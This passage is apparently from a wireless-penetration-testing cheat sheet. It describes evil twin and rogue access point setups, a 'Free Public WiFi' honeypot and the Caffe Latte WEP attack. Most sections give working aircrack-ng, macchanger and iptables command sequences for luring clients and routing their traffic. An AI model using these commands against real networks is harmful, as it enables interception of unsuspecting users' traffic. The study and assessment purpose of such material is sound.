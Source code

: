 ```bash
airmon-ng start wlan0  # [Explain this command]
airodump-ng mon0  # [Explain this command]
macchanger --mac [spoofed MAC] wlan0
airbase-ng -e [ESSID] -c [channel] -a [spoofed MAC] mon0  
ifconfig at0 up  # [Explain this command]
dhcpd at0  # [Explain this command]
ifconfig at0 192.168.10.1 netmask 255.255.255.0  
iptables --flush  # [Explain this command]
iptables --table nat --flush  # [Explain this command]
iptables --delete-chain  # [Explain this command]
iptables --table nat --delete-chain  # [Explain this command]
iptables -P FORWARD ACCEPT  # [Explain this command]
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE  
echo 1 > /proc/sys/net/ipv4/ip_forward  # [Explain this command]

```
## Rogue Access Point
A Rogue Access Point attack sets up an unauthorized AP within the target network's range, either to entice users to connect or to bypass network controls from within a trusted zone. This attack is ideal for persistent network intrusion, lateral movement, or testing physical security controls and wireless access policies. It is effective because many networks do not actively scan for unauthorized APs, and users can be easily lured to connect if the rogue AP is stronger or more familiar than the legitimate one. Once connected, attackers can capture data, redirect traffic, or inject malicious content.

```bash
airmon-ng start wlan0  # [Explain this command]
airbase-ng -e RogueAP -c [channel] mon0  # [Explain this command]
ifconfig at0 up  # [Explain this command]
dhclient at0
```

---

# Attacking The Client

## Mis-Association Attack (Honeypot)
The Mis-Association attack, also known as the Honeypot attack, involves setting up a rogue access point broadcasting a familiar or attractive SSID to trick nearby clients into connecting. This attack is best used during assessments of environments where users are likely to connect automatically to open or previously known networks, such as airports, cafes, or enterprise campuses. It is effective because many wireless devices will automatically connect to any network broadcasting a known SSID, allowing attackers to intercept sensitive traffic, redirect victims, or launch man-in-the-middle attacks without needing to breach existing network infrastructure.

```bash
airmon-ng start wlan0  # 
airbase-ng -P -C 30 -e "Free Public WiFi" -c [channel] mon0  # 
ifconfig at0 up  # 
dhclient at0

```
## Caffe Latte Attack (Client WEP Key Retrieval)
The Caffe Latte attack targets clients with saved WEP keys by tricking them into leaking enough encrypted packets to allow for offline key recovery. This attack is particularly useful when the access point is not physically reachable or is hardened against direct attacks, but mobile clients are within range. It works by simulating an AP and inducing the client to generate ARP traffic, which the attacker collects and analyzes to recover the WEP key. Its effectiveness lies in the ability to extract encryption credentials from the client alone, making it a stealthy alternative to traditional AP-focused attacks.
```bash
```